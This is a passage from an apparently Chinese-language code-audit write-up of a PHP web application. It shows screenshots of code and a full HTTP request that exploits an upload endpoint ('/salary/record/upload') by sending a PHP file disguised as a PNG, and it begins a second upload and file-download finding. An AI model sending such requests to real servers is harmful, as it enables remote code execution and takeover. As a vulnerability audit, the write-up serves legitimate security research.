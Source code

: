   
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6WnDPaGYRODOxdOPK7eoJc07NWVTVjrk70s3EYApV0Wr1qEo02okAn6g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
而鉴权的代码是这样子的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6WtCFfCR8zibud9C5Cibatdiapto8jHUGgQRaCiatTNnicRJyHSmQ1ts2G4KQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
最终报文  
```
POST /index.php/salary/record/upload HTTP/1.1
Host: xxx
Content-Length: 196
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryQayVsySyhSwgpmLk--
```  
  
**上传2 + 任意文件下载**  
  
  
  
全局搜索函数move_uploaded_file  
  
找到  
\web\static\lib\weboffice\js\OfficeServer.php这个文件  
  
直接访问下发现返回200证明文件存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6WxliapdUtFC9EfQ4WzHzPQhQP3mD2ia9kPyOhn1nvBDgeAicdoehz4DIzw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
接着审计代码逻辑  
  
